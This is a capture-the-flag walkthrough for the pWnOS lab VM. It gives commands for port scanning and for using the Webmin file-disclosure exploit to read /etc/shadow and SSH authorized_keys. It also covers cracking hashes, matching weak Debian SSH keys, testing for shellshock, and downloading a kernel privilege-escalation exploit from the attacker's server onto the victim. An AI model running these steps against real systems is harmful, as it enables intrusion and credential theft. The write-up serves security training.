 # pWnOS
![](https://i.imgur.com/LZmlT7R.png)
Use vmware and select "I Moved it." to import the image.

![](https://i.imgur.com/1JR58TI.png)
Host is `192.168.227.132`

![](https://i.imgur.com/hgb2Cyk.png)
Victim is `192.168.227.138`.

`nmap -sS -sV -p- -oN NamppWnOSLv1.txt 192.168.227.138`
![](https://i.imgur.com/uVmlN2s.png)

Nmap findings:
1. Target box is linux machine.
2. SSH server is enabled.
3. Apache server is listening on port 80.
4. webmin httpd version 0.01 is enabled on default port 10000

Let's first look at web, explore website in browser to find vulnerability for exploitation.

![](https://i.imgur.com/zOYS99w.png)

![](https://i.imgur.com/yTXIjQd.png)

![](https://i.imgur.com/SqnQpTO.png)

Use [Webminp](https://www.exploit-db.com/exploits/2017) to find out LFI.

Then we found file inclusion vulnerability  in `connect` parameter of query string with `/etc/passwd`. LFI is exploitable.

![](https://i.imgur.com/mMKkiMS.png)

Usernames found: `root`, `vmware`, `obama`, `osama`, `yomama`

Unfortunately, `/etc/shadow`, `/var/log/apache2/access.log` files are not accessible through website. So, can not proceed further using this path. RFI is URL file-access is disabled in the server configuration

Lets explore webmin.

`searchsploit webmin`, then we find the exploit `Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure (Perl)`

![](https://i.imgur.com/z8lOjbG.png)

`cp /usr/share/exploitdb/exploits/multiple/remote/2017.pl .` to current folder and eecute it with instrument.

Here we got two option:
1. find the hash of password and crack it.
2. find the SSH autorized key and search from brutal force generated database.

## Crack Password
`./2017.pl 192.168.227.138 10000 /etc/shadow 0`

![](https://i.imgur.com/Z2yin15.png)

Now, we get the password hash, let's crack it with hashcat.
Download wordlist `sqlmap.txt` if yours missing.

`hashcat -m 500 -a 0 -o cracked.txt --force vmware.txt /usr/share/wordlists/sqlmap.txt`

![](https://i.imgur.com/uPIGigO.png)

Now we can ssh `vmware@h4ckm3` access to the VM.

## Crack SSH key
First, read the `/home/{username}/.ssh/authorized_keys` with webmin read file exploit.

`./2017.pl 192.168.227.138 10000 /home/obama/.ssh/authorized_keys 0`

![](https://i.imgur.com/jBeo4OI.png)

Since, authorized keys are accesible, let's try exploit

https://www.exploit-db.com/exploits/5720/

To use exploit, we must download database mentioned in exploit prior to execute exploit from this location and decompress.
`mkdir sshkeys`
`cd sshkeys`
`wget https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/bin-sploits/5622.tar.bz2`

`tar -vxjf 5622.tar.bz1` to decompressed the file and `grep` the key.

`grep -lr AAAAB3NzaC1yc2EAAAABIwAAAQEAxRuWHhMPelB60JctxC6BDxjqQXggf0ptx2wrcAw09HayPxMnKv+BFiGA/I1yXn5EqUfuLSDcTwiIeVSvqJl3NNI5HQUUc6KGlwrhCW464ksARX2ZAp9+6Yu7DphKZmtF5QsWaiJc7oV5il89zltwBDqR362AH49m8/3OcZp4XJqEAOlVWeT5/jikmke834CyTMlIcyPL85LpFw2aXQCJQIzvkCHJAfwTpwJTugGMB5Ng73omS82Q3ErbOhTSa5iBuE86SEkyyotEBUObgWU3QW6ZMWM0Rd9ErIgvps1r/qpteMMrgieSUKlF/LaeMezSXXkZrn0x+A2bKsw9GwMetQ==`

![](https://i.imgur.com/JZjYO3E.png)

`cp sshkeys/rsa/2048/dcbe2a56e8cdea6d17495f6648329ee2-4679 .`
`ssh -i dcbe2a56e8cdea6d17495f6648329ee2-4679  obama@192.168.227.138`

![](https://i.imgur.com/4dnwqlx.png)

## POE1

We can code review the webmin, than you will find it will run .cgi by perl. We can download exploit reverse shell from Kali VM and make it run by LFI by browser.

## POE2
Find the shellshock `env X='() { :; }; echo "CVE-2014-6271 vulnerable"' bash -c date`
![](https://i.imgur.com/N9WqvLH.png)

## POE3
`searchsploit linux kernel 2.6.2 local privilege`
You can use dirty-cow or vmsplice.

Copy and launch server for victim to download.
`cp /usr/share/exploitdb/exploits/linux/local/5092.c .`
`python -m SimpleHTTPServer 8000`

Back to victim ssh shell.
`cd /tmp`
`wget 192.168.227.132:8000/5092.c`
![](https://i.imgur.com/vJWLcVb.png)
